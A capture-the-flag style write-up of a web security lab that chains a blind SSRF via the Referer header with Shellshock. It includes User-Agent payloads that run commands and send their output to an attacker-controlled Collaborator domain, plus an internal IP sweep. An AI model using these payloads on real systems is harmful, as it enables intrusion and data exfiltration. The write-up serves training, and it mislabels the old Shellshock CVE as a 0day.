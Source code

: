 # Blind SSRF + Shellshock write up

Chain with [ShellShock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#match-7146748) 

### Overview

### **Overview of SSRF**

Server Side Request Forgery (SSRF) is a type of vulnerability where an attacker is able to get a server to make requests to other internal or external resources. The attacker can then use this vulnerability to gain access to sensitive information, such as passwords, or to launch further attacks, such as remote code execution.

**Overview of Shellshock**

Shellshock is a vulnerability in the bash shell, which is used in many Linux and Unix systems. It allows for remote code execution, which can be used to gain access to a system or launch further attacks. The vulnerability is caused by a flaw in the implementation of environment variables in Bash, which allows code to be executed without prior authentication.

1. **Discover**

```html
https://[ID].web-security-academy.net/product?productId=1
```

The lab present a shop that vulnerable to SSRF but in blind case ( OAST technique ). From the main page of the shop, when we click on the details of the product, we can see more information about the product in the other endpoint. From Burp, we can see those fields is included inside the request.

![Untitled](Blind%20SSRF%20+%20Shellshock%20write%20up%20830de68b34d84d15a8df5e90c3ddfcaa/Untitled.png)

And referrer field is the thing we want to pay attention because in SSRF of this type, which is local infiltration. 

1. **Attack Vectors**

We may want to try to make a connection to our own server which is provided by Burp Collaborator to see whether the requests are made through. 

![Untitled](Blind%20SSRF%20+%20Shellshock%20write%20up%20830de68b34d84d15a8df5e90c3ddfcaa/Untitled%201.png)

We locate to the referrer field and place a link provided by Burp Collaborator, make a request and poll on the panel, we saw the following result.

![Untitled](Blind%20SSRF%20+%20Shellshock%20write%20up%20830de68b34d84d15a8df5e90c3ddfcaa/Untitled%202.png)

Prove that the referrer field can make a connection to the outside server, which is potentially to SSRF, and surely nothing is come back from the response of the first request we made.

1. Step to reproduce 
    
    > From the lab, it require us to perform task that attack to the internal server located in the range of 192.168.0.[IP]:8080.
    > 

From this time, we totally can made a request to the outside through referrer field. So, the question we need to answer right now is ***how to perform an IP scanner while making request of that IP to the outside server which we owned ( in this case is Burp Collaborator ).***

Hint from the lab: Shellshock payload

Back to the request we made at the moment. We may want to exploit with the help of [Shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#match-7146748).

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled.png)

```bash
env x='() { :;}; echo vulnerable' bash -c "echo test"
```

Sample PoC suggest that the field we want to drop the command will we parsed by the Bash and due to that behavior, it will make a connection to the outside world with the deserved command. Similar to OS command injection but in this case, it chain with a 0day vulnerable to successful exploit the target. Noted from the discover above, the 2nd request to burp collab link contains User-Agent field, which is then be logged by the http service running on the machine in the internal network.

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled%201.png)

In this case, referrer should be the place we want to put the IP range that provided from the lab for scanning, this will be the 1st request. The 2nd request will come from the IP that expose to the WWW, and inside this 2nd request, User-Agent field should be use as the place the shockshell perform the task, which it run the command and make a connection to the outside server we owned. The process will look like diagram below:

![Untitled Diagram.drawio (1).png](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled_Diagram.drawio_(1).png)

```bash
User-Agent: () { exp;}; echo; /usr/bin/ping $(whoami).[IP].oastify.com
```

Transfer the request to intruder, set range of the IP from 1-255 and put the payload we already prepare.

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled%202.png)

Proved that every request is possible due to 200 response. But we want a connection to the outside world from the internal machine of the lab. Polled in Burp Collaborator:

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled%203.png)

We saw that we receive 4 difference IP address that make the same task which ping to the domain we take from burp collaborator. Prove that the theory answered the question we made before. And it also prove that we can infiltrate the internal space through the chain of SSRF and Shellshock 0day vulnerable.

To solve the lab, just take the name of the machine, which is performed by `$(whoami)` and append to the burp collab link.

We can run difference command to infiltrate the internal service

![Untitled](Vulnerability%20Report%20on%20SSRF%20chain%20with%20Shellshock%20e69fb6b27fb74614b00c32980e5c7ba9/Untitled%204.png)

```bash
User-Agent: () { exp;}; echo; /usr/bin/ping $(uname).[IP].oastify.com
```